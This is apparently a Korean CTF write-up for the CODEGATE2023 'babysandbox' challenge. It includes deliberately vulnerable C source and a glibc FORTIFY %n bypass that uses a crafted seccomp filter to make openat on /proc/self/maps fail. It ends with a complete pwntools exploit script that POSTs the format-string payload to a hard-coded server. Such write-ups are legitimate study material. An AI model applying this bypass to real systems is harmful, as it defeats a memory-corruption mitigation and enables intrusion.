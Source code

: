 ```yaml
---
layout: post
date: 2023-06-18
title: "CODEGATE2023 Quals babysandbox write-up
tags: [pwnable, seccomp, FSB, ]
categories: [CTF, CODEGATE2023, ]
---
```



## 문제 분석


---


```c
// gcc box.c -o box -no-pie

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <fcntl.h>
#include <unistd.h>
#include <linux/seccomp.h>
#include <sys/prctl.h>

#define FLAG_PATH "/flag"

int install_seccomp(uint8_t *filt, unsigned short len);
void vuln();
void read_flag();

uint32_t target = 0xdead;

int main(int argc, char **argv) {
    uint32_t filt_len;

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    read(0, &filt_len, sizeof(uint32_t));
    if (filt_len > 0x200) {
        __printf_chk(1, "Too much T_T\n");
        return 1;
    }
    uint8_t *filt =  (unsigned char *)calloc(sizeof(uint8_t), filt_len);
    int res = read(0, filt, filt_len);
    if (res != filt_len) {
        __printf_chk(1, "Cannot read enough T_T\n");
        return 1;
    }

    if (install_seccomp(filt, (unsigned short)filt_len))
        return 1;

    vuln();

    return 0;
}

int install_seccomp(unsigned char *filt, unsigned short filt_len) {
    struct prog {
        unsigned short len;
        unsigned char *filt;
    } rule = {
        .len = filt_len >> 3,
        .filt = filt
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) < 0) {
        __printf_chk(1, "Failed to prctl(PR_SET_NO_NEW_PRIVS) T_T\n");
         return 1;
    }
    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &rule) < 0) { 
        __printf_chk(1, "Failed to prctl(PR_SET_SECCOMP) T_T\n");
         return 1;
    }
    return 0;
}

void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input);

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}

void read_flag() {
    int fd = open(FLAG_PATH, O_RDONLY);
    char flag_buf[0x100];

    if (fd < 0) {
        __printf_chk(1, "Failed to open flag, contact admin please T_T\n");
        exit(1);
    }

    memset(flag_buf, 0, sizeof(flag_buf));
    int res = read(fd, flag_buf, sizeof(flag_buf));

    if (res < 0) {
        __printf_chk(1, "Failed to read flag, contact admin please T_T\n");
        exit(1);        
    }
    close(fd);
    write(1, flag_buf, res);

    return;
}
```


입력 받은 seccomp 필터를 바이너리에 적용한 후에 FSB를 트리거 할 수 있게 해준다.


target을 0x1337로 변조하면 플래그를 출력해주지만, `printf_chk` 함수는 `%n`을 사용하지 못한다.


<br>


그러나 read-only 영역에서는 `%n`을 사용할 수 있으며, glibc에서는 `/proc/self/maps`를 열어 read-only 영역인지 판단한다.


<br>


`__readonly_area` 함수에서는 해당 포인터가 read-only 영역인지 확인한다. 하지만 fopen에 실패했을 경우 에러코드를 통해 해당 영역이 read-only 영역에 해당하는 지를 반환한다. 


```c
int
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
	 available to this process (e.g., because it runs in a chroot
	 environment.  Don't fail in this case.  */
      if (errno == ENOENT
	  /* The kernel has a bug in that a process is denied access
	     to the /proc filesystem if it is set[ug]id.  There has
	     been no willingness to change this in the kernel so
	     far.  */
	  || errno == EACCES)
	return 1;
      return -1;
    }
.
.
```


{: file='sysdeps/unix/sysv/linux/readonly-area.c'}


<br>


seccomp를 통해 `openat` 시스템콜을 막고 원하는 에러코드를 반환하도록 설정할 수 있다.


한가지 주의해야할 점은 flag 파일을 읽어들일 때도 `openat` 시스템콜을 사용하므로 인자로 플래그 파일명 포인터가 넘어왔을 때는 허용해주었다.


또한 `openat` 시스템콜은 rsi를 파일명 포인터로 받으므로 `A = args[1]`로 설정해주어야 한다.


```ruby
A = sys_number
A != openat ? ok : next
A = args[1]
A == 0x402147 ? ok : next
return ERRNO(2)
ok:
return ALLOW
```


이제 `%n`을 사용할 수 있으므로 FSB를 통해 값을 변조하면 된다.


## 익스플로잇


---


```python
import requests
import base64 
from pwn import*

send_payload:list[bytes] = []

bpf = b"\x20\x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x04\x01\x01\x00\x00\x20\x00\x00\x00\x18\x00\x00\x00\x54\x00\x00\x00\xff\x00\x00\x00\x15\x00\x01\x00\x47\x00\x00\x00\x06\x00\x00\x00\x02\x00\x05\x00\x06\x00\x00\x00\x00\x00\xff\x7f"
send_payload.append(p32(len(bpf)))
send_payload.append(bytes(bpf))


payload = b''
payload += b'%' + b'4856' + b'c' # 0x1337
payload += b'%d%d%d%d%d%d%d%d%d%n'
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(0x404088)
send_payload.append(payload)

result_payload = b''.join(send_payload)

res = requests.post('http://15.164.245.40:1400/', data={'payload':base64.b64encode(result_payload)})

print(res.text)
```


## 레퍼런스


---


[https://0xacb.com/2017/11/19/hxp-flag-store/](https://0xacb.com/2017/11/19/hxp-flag-store/)


